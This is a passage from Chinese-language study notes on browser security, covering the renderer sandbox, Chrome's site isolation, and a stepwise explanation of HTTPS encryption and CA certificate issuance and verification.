在浏览器中打开一个页面，所有的网络资源都是通过浏览器内核来下载的，下载后的资源会通过 IPC 将其提交给渲染进程（_浏览器内核和渲染进程之间都是通过 IPC 来通信的_）。然后渲染进程会对这些资源进行解析、绘制等操作，最终生成一幅图片。但是渲染进程并不负责将图片显示到界面上，而是将最终生成的图片提交给浏览器内核模块，由浏览器内核模块负责显示这张图片。

在[Chrome 架构](#21-chrome-架构)中分析过，设计现代浏览器体系架构时，将浏览器划分为不同的进程是为了增加其稳定性。虽然设计成了多进程架构，不过这些模块之间的沟通方式却有些复杂。现代浏览器之所以把这个流程弄得这么复杂，是因为系统安全。

#### 8.4.2 安全沙箱

由于渲染进程需要执行 DOM 解析、CSS 解析、网络图片解码等操作，如果渲染进程中存在系统级别的漏洞，那么以上操作就有可能让恶意的站点获取到渲染进程的控制权限，进而又获取操作系统的控制权限，这对于用户来说是非常危险的。

因为网络资源的内容存在着各种可能性，所以浏览器会默认所有的网络资源都是不可信的，都是不安全的。但谁也不能保证浏览器不存在漏洞，只要出现漏洞，黑客就可以通过网络内容对用户发起攻击。如果下载了一个恶意程序，但是没有执行它，那么恶意程序是不会生效的。同理，浏览器之于网络内容也是如此，浏览器可以安全地下载各种网络资源，但是如果要执行这些网络资源，比如解析 HTML、解析 CSS、执行 JS、图片编解码等操作，就需要非常谨慎了，因为一不小心，黑客就会利用这些操作对含有漏洞的浏览器发起攻击。

基于以上原因，需要在渲染进程和操作系统之间建一道墙，即便渲染进程由于存在漏洞被黑客攻击，但由于这道墙，黑客就获取不到渲染进程之外的任何操作权限。**将渲染进程和操作系统隔离的这道墙就是安全沙箱**。

浏览器中的安全沙箱是利用操作系统提供的安全技术，让渲染进程在执行过程中无法访问或者修改操作系统中的数据，在渲染进程需要访问系统资源的时候，需要通过浏览器内核来实现，然后将访问的结果通过 IPC 转发给渲染进程。

安全沙箱最小的保护单位是进程。因为单进程浏览器需要频繁访问或者修改操作系统的数据，所以单进程浏览器是无法被安全沙箱保护的，而现代浏览器采用的多进程架构使得安全沙箱可以发挥作用。

**安全沙箱如何影响各个模块功能**
安全沙箱最小的保护单位是进程，并且能限制进程对操作系统资源的访问和修改，这就意味着如果要让安全沙箱应用在某个进程上，那么这个进程必须没有读写操作系统的功能，比如读写本地文件、发起网络请求、调用 GPU 接口等。了解了被安全沙箱保护的进程会有一系列的受限操作之后，接下来就可以分析渲染进程和浏览器内核各自都有哪些职责，如下图：



通过该图，可以看到由于渲染进程需要安全沙箱的保护，因此需要把在渲染进程内部涉及到和系统交互的功能都转移到浏览器内核中去实现。安全沙箱会影响以下模块功能：

1. **持久存储**

   先来看看安全沙箱是如何影响到浏览器持久存储的。由于安全沙箱需要负责确保渲染进程无法直接访问用户的文件系统，但是在渲染进程内部有访问 Cookie 的需求、有上传文件的需求，为了解决这些文件的访问需求，所以现代浏览器将读写文件的操作全部放在了浏览器内核中实现，然后通过 IPC 将操作结果转发给渲染进程。具体地讲，如下文件内容的读写都是在浏览器内核中完成的：

   - 存储 Cookie 数据的读写。通常浏览器内核会维护一个存放所有 Cookie 的 Cookie 数据库，然后当渲染进程通过 JS 来读取 Cookie 时，渲染进程会通过 IPC 将读取 Cookie 的信息发送给浏览器内核，浏览器内核读取 Cookie 之后再将内容返回给渲染进程。

   - 一些缓存文件的读写也是由浏览器内核实现的，比如网络文件缓存的读取。

2. **网络访问**

   同样有了安全沙箱的保护，在渲染进程内部也是不能直接访问网络的，如果要访问网络，则需要通过浏览器内核。不过浏览器内核在处理 URL 请求之前，会检查渲染进程是否有权限请求该 URL，比如检查 XMLHttpRequest 或者 Fetch 是否是跨站点请求，或者检测 HTTPS 的站点中是否包含了 HTTP 的请求。

3. **用户交互**

   通常情况下，如果要实现一个 UI 程序，操作系统会提供一个界面给，该界面允许应用程序与用户交互，允许应用程序在该界面上进行绘制，比如 Windows 提供的是 HWND，Linux 提供的 X Window，把 HWND 和 X Window 统称为**窗口句柄**。应用程序可以在窗口句柄上进行绘制和接收键盘鼠标消息。

   不过在现代浏览器中，由于每个渲染进程都有安全沙箱的保护，所以在渲染进程内部是无法直接操作窗口句柄的，这也是为了限制渲染进程监控到用户的输入事件。由于渲染进程不能直接访问窗口句柄，所以渲染进程需要完成以下两点大的改变：

   - 渲染进程需要渲染出位图。为了向用户显示渲染进程渲染出来的位图，渲染进程需要将生成好的位图发送到浏览器内核，然后浏览器内核将位图复制到屏幕上。

   - 操作系统没有将用户输入事件直接传递给渲染进程，而是将这些事件传递给浏览器内核。然后浏览器内核再根据当前浏览器界面的状态来判断如何调度这些事件，如果当前焦点位于浏览器地址栏中，则输入事件会在浏览器内核内部处理；如果当前焦点在页面的区域内，则浏览器内核会将输入事件转发给渲染进程。

   之所以这样设计，就是为了限制渲染进程有监控到用户输入事件的能力，所以所有的键盘鼠标事件都是由浏览器内核来接收的，然后浏览器内核再通过 IPC 将这些事件发送给渲染进程。

上面分析了由于渲染进程引入了安全沙箱，所以浏览器的持久存储、网络访问和用户交互等功能都不能在渲染进程内直接使用了，因此需要把这些功能迁移到浏览器内核中去实现，这让原本比较简单的流程变得复杂了。

#### 8.4.3 站点隔离（Site Isolation）

**站点隔离是指 Chrome 将同一站点（包含了相同根域名和相同协议的地址）中相互关联的页面放到同一个渲染进程中执行**。

最开始 Chrome 划分渲染进程是以标签页为单位，也就是说整个标签页会被划分给某个渲染进程。但是，按照标签页划分渲染进程存在一些问题，原因就是一个标签页中可能包含了多个 iframe，而这些 iframe 又有可能来自于不同的站点，这就导致了多个不同站点中的内容通过 iframe 同时运行在同一个渲染进程中。

目前所有操作系统都面临着两个 A 级漏洞——幽灵（Spectre）和熔毁（Meltdown），这两个漏洞是由处理器架构导致的，很难修补，黑客通过这两个漏洞可以直接入侵到进程的内部，如果入侵的进程没有安全沙箱的保护，那么黑客还可以发起对操作系统的攻击。所以如果一个银行站点包含了一个恶意 iframe，然后这个恶意的 iframe 利用这两个 A 级漏洞去入侵渲染进程，那么恶意程序就能读取银行站点渲染进程内的所有内容了，这对于用户来说就存在很大的风险了。

因此 Chrome 几年前就开始重构代码，将标签级的渲染进程重构为 iframe 级的渲染进程，然后严格按照同一站点的策略来分配渲染进程，这就是 Chrome 中的站点隔离。实现了站点隔离，就可以将恶意的 iframe 隔离在恶意进程内部，使得它无法继续访问其他 iframe 进程的内容，因此也就无法攻击其他站点了。

> 2019 年 10 月 20 日 Chrome 团队宣布安卓版的 Chrome 已经全面支持站点隔离，可以参考[链接](https://www.digitalinformationworld.com/2019/10/google-improves-site-isolation-for-stronger-chrome-browser-security.html)。

### 8.5 HTTPS

起初设计 HTTP 协议的目的很单纯，就是为了传输超文本文件，那时候也没有太强的加密传输的数据需求，所以 HTTP 一直保持着明文传输数据的特征。但这样的话，在传输过程中的每一个环节，数据都有可能被窃取或者篡改，这也意味着你和服务器之间还可能有个中间人，通信过程中的一切内容都在中间人的掌握中，如下图：



从上图可以看出，使用 HTTP 传输的内容很容易被中间人窃取、伪造和篡改，通常把这种攻击方式称为**中间人攻击**。具体来讲，在将 HTTP 数据提交给 TCP 层之后，数据会经过用户电脑、WiFi 路由器、运营商和目标服务器，在这中间的每个环节中，数据都有可能被窃取或篡改。比如用户电脑被黑客安装了恶意软件，那么恶意软件就能抓取和篡改所发出的 HTTP 请求的内容。或者用户一不小心连接上了 WiFi 钓鱼路由器，那么数据也都能被黑客抓取或篡改。

#### 8.5.1 在 HTTP 协议栈中引入安全层

鉴于 HTTP 的明文传输使得传输过程毫无安全性可言，且制约了网上购物、在线转账等一系列场景应用，于是倒逼着要引入加密方案。从 HTTP 协议栈层面来看，可以在 TCP 和 HTTP 之间插入一个安全层，所有经过安全层的数据都会被加密或者解密，可以参考下图：


从图中可以看出 HTTPS 并非是一个新的协议，通常 HTTP 直接和 TCP 通信，HTTPS 则先和安全层通信，然后安全层再和 TCP 层通信。也就是说 HTTPS 所有的安全核心都在安全层，它不会影响到上面的 HTTP 协议，也不会影响到下面的 TCP/IP，因此要搞清楚 HTTPS 是如何工作的，就要弄清楚安全层是怎么工作的。

总的来说，安全层有两个主要的职责：**对发起 HTTP 请求的数据进行加密操作和对接收到 HTTP 的内容进行解密操作**。那么接下来就利用这个安全层，一步一步实现一个从简单到复杂的 HTTPS 协议：

1. **第一版：使用对称加密**

   提到加密，最简单的方式是使用对称加密。所谓**对称加密是指加密和解密都使用的是相同的密钥**。要在两台电脑上加解密同一个文件，至少需要知道加解密方式和密钥，因此，在 HTTPS 发送数据之前，浏览器和服务器之间需要协商加密方式和密钥，过程如下所示：

   

   通过上图可以看出，HTTPS 首先要协商加解密方式，这个过程就是 HTTPS 建立安全连接的过程。为了让加密的密钥更加难以破解，让服务器和客户端同时决定密钥，具体过程如下：

   1. 浏览器发送它所支持的加密套件列表和一个随机数 client-random，这里的加密套件是指加密的方法，加密套件列表就是指浏览器能支持多少种加密方法列表。
   2. 服务器会从加密套件列表中选取一个加密套件，然后还会生成一个随机数 service-random，并将 service-random 和加密套件列表返回给浏览器。
   3. 最后浏览器和服务器分别返回确认消息。

   这样浏览器端和服务器端都有相同的 client-random 和 service-random 了，然后它们再使用相同的方法将 client-random 和 service-random 混合起来生成一个密钥 master secret，有了密钥 master secret 和加密套件之后，双方就可以进行数据的加密传输了。通过将对称加密应用在安全层上，就实现了第一个版本的 HTTPS，虽然这个版本能够很好地工作，但是其中传输 client-random 和 service-random 的过程却是明文的，这意味着黑客也可以拿到协商的加密套件和双方的随机数，由于利用随机数合成密钥的算法是公开的，所以黑客拿到随机数之后，也可以合成密钥，这样数据依然可以被破解，那么黑客也就可以使用密钥来伪造或篡改数据了。

2. **第二版：使用非对称加密**

   非对称加密能够解决对称加密的问题，因此接下来就利用非对称加密来实现第二版的 HTTPS。和对称加密只有一个密钥不同，**非对称加密算法有 A、B 两把密钥，如果用 A 密钥来加密，那么只能使用 B 密钥来解密；反过来，如果你要 B 密钥来加密，那么只能用 A 密钥来解密**。

   在 HTTPS 中，服务器会将其中的一个密钥通过明文的形式发送给浏览器，把这个密钥称为**公钥**，服务器自己留下的那个密钥称为**私钥**。顾名思义，公钥是每个人都能获取到的，而私钥只有服务器才能知道，不对任何人公开。下图是使用非对称加密改造的 HTTPS 协议：

   

   根据该图，来分析下使用非对称加密的请求流程：

   1. 首先浏览器还是发送加密套件列表给服务器。
   2. 然后服务器会选择一个加密套件，不过和对称加密不同的是，使用非对称加密时服务器上需要有用于浏览器加密的公钥和服务器解密 HTTP 数据的私钥，由于公钥是给浏览器加密使用的，因此服务器会将加密套件和公钥一道发送给浏览器。
   3. 最后就是浏览器和服务器返回确认消息。

   这样浏览器端就有了服务器的公钥，在浏览器端向服务器端发送数据时，就可以使用该公钥来加密数据。由于公钥加密的数据只有私钥才能解密，所以即便黑客截获了数据和公钥，也是无法使用公钥来解密数据的。因此采用非对称加密，就能保证浏览器发送给服务器的数据是安全的了，不过这种方式依然存在两个严重的问题：

   - **非对称加密的效率太低**。这会严重影响到加解密数据的速度，进而影响到用户打开页面的速度。
   - **无法保证服务器发送给浏览器的数据安全**。虽然浏览器端可以使用公钥来加密，但是服务器端只能采用私钥来加密，私钥加密只有公钥能解密，但黑客也是可以获取得到公钥的，这样就不能保证服务器端数据的安全了。

3. **第三版：对称加密和非对称加密搭配使用**

   基于以上两点原因，最终选择了一个更加完美的方案，那就是**在传输数据阶段依然使用对称加密，但是对称加密的密钥采用非对称加密来传输**。下图就是改造后的版本：

   

   从图中可以看出，改造后的流程是这样的：

   1. 首先浏览器向服务器发送对称加密套件列表、非对称加密套件列表和随机数 client-random
   2. 服务器保存随机数 client-random，选择对称加密和非对称加密的套件，然后生成随机数 service-random，向浏览器发送选择的加密套件、service-random 和公钥
   3. 浏览器保存公钥，并生成随机数 pre-master，然后利用公钥对 pre-master 加密，并向服务器发送加密后的数据
   4. 最后服务器拿出自己的私钥，解密出 pre-master 数据，并返回确认消息。

   到此为止，服务器和浏览器就有了共同的 client-random、service-random 和 pre-master，然后服务器和浏览器会使用这三组随机数生成对称密钥，因为服务器和浏览器使用同一套方法来生成密钥，所以最终生成的密钥也是相同的。有了对称加密的密钥之后，双方就可以使用对称加密的方式来传输数据了。

   > **注意**：pre-master 是经过公钥加密之后传输的，所以黑客无法获取到 pre-master，这样黑客就无法生成密钥，也就保证了黑客无法破解传输过程中的数据了。

4. **第四版：添加数字证书**

   通过对称和非对称混合方式，完美地实现了数据的加密传输。不过这种方式依然存在着问题，比如要打开极客时间的官网，但是黑客通过 DNS 劫持将极客时间官网的 IP 地址替换成了黑客的 IP 地址，这样访问的其实是黑客的服务器了，黑客就可以在自己的服务器上实现公钥和私钥，而对浏览器来说，它完全不知道现在访问的是个黑客的站点。

   所以还需要服务器向浏览器提供证明 “我就是我”，这是时候需要使用权威机构颁发的证书，这个权威机构称为 CA（Certificate Authority），颁发的证书就称为**数字证书**（Digital Certificate)。对于浏览器来说，数字证书有两个作用：

   - 通过数字证书向浏览器证明服务器的身份
   - 数字证书里面包含了服务器公钥

   接下来看看含有数字证书的 HTTPS 的请求流程，可以参考下图：

   

   相较于第三版的 HTTPS 协议，这里主要有两点改变：

   - 服务器没有直接返回公钥给浏览器，而是返回了数字证书，而公钥正是包含在数字证书中的
   - 在浏览器端多了一个证书验证的操作，验证了证书之后，才继续后续流程

   通过引入数字证书，就实现了服务器的身份认证功能，这样即便黑客伪造了服务器，但是由于证书是没有办法伪造的，所以依然无法欺骗用户。

#### 8.5.2 数字证书的申请和验证

通常的CA证书申请流程分以下几步：

- 首先需要准备一套私钥和公钥，私钥留着自己使用
- 然后向 CA 机构提交公钥、公司、站点等信息并等待认证，这个认证过程可能是收费的
- CA 通过线上、线下等多种渠道来验证所提供信息的真实性，如公司是否存在、企业是否合法、域名是否归属该企业等；如信息审核通过，CA 会签发认证的数字证书，包含了公钥、组织信息、CA 的信息、有效时间、证书序列号等，这些信息都是明文的，同时包含一个 CA 生成的签名。

这样就完成了数字证书的申请过程。前面几步都很好理解，不过最后一步数字签名的过程还需要解释下：首先 CA 使用 Hash 函数来计算极客时间提交的明文信息，并得出信息摘要；然后 CA 再使用它的私钥对信息摘要进行加密，加密后的密文就是 CA 颁给极客时间的数字签名。这就相当于房管局在房产证上盖的章，这个章是可以去验证的，同样也可以通过数字签名来验证是否是该 CA 颁发的。

**浏览器如何验证数字证书**
有了 CA 签名过的数字证书，当浏览器向服务器发出请求时，服务器会返回数字证书给浏览器。

浏览器接收到数字证书之后，会对数字证书进行验证。首先浏览器读取证书中相关的明文信息，采用 CA 签名时相同的 Hash 函数来计算并得到**信息摘要 A**；然后再利用对应 CA 的公钥解密签名数据，得到**信息摘要 B**；对比信息摘要 A 和信息摘要 B，如果一致，则可以确认证书是合法的，即证明了这个服务器是极客时间的；同时浏览器还会验证证书相关的域名信息、有效时间等信息。

这时候相当于验证了 CA 是谁，但是这个 CA 可能比较小众，浏览器不知道该不该信任它，然后浏览器会继续查找给这个 CA 颁发证书的 CA，再以同样的方式验证它上级 CA 的可靠性。通常情况下，操作系统中会内置信任的顶级 CA 的证书信息（包含公钥），如果这个 CA 链中没有找到浏览器内置的顶级的 CA，证书也会被判定非法。

另外，在申请和使用证书的过程中，还需要注意以下三点：

- 申请数字证书是不需要提供私钥的，要确保私钥永远只能由服务器掌握
- 数字证书最核心的是 CA 使用它的私钥生成的数字签名
- 内置 CA 对应的证书称为根证书，根证书是最权威的机构，它们自己为自己签名，这称为自签名证书

可以去 [freeSSL](https://freessl.cn/) 申请免费证书。
